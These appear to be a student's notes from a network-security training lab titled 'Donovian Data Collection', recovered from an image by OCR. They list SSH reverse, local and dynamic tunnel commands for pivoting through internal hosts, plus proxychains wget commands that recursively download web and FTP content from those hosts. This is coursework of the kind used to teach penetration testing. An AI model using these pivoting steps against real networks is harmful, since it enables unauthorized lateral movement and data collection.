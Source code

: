 ```
Task 4 - Donovian Data Collection: Will open when Task 3 is complete

    T5 Float IP address is - 10.50.27.147
    Credentials: Same as Task 3.
```
#Setup Remote Tunnel from Internal Machine at 10.50.27.147 
#Setup Dyanmic Tunnel to exploit web server
IH> telnet 10.50.27.147
SSH01> ssh student@10.50.37.63 -R 10599:localhost:22
IH> ssh net1_student5@localhost -D 9050 -p 10599
IH> proxychains wget -r http://192.168.0.10

#Setup Tunnel to SSH-02 based off previous Reverse Tunnel
IH> ssh net1_student5@localhost -p 10599 -L 10550:192.168.0.20:3333
IH> ssh net1_student5@localhost -p 10550

#Setup Dynamic Tunnel for proxychains
IH> ssh ssh net1_student5@localhost -D 9050 -p 10550
IH> proxychains wget -r ftp://192.168.0.50
IH> proxychains wget -r http://192.168.0.50

#Setup Tunnel to SSH-04 based of original Reverse Tunnel 
IH> ssh net1_student5@localhost -p 10599 -L 10551:192.168.0.40:5555
IH> ssh net1_student5@localhost -p 10551
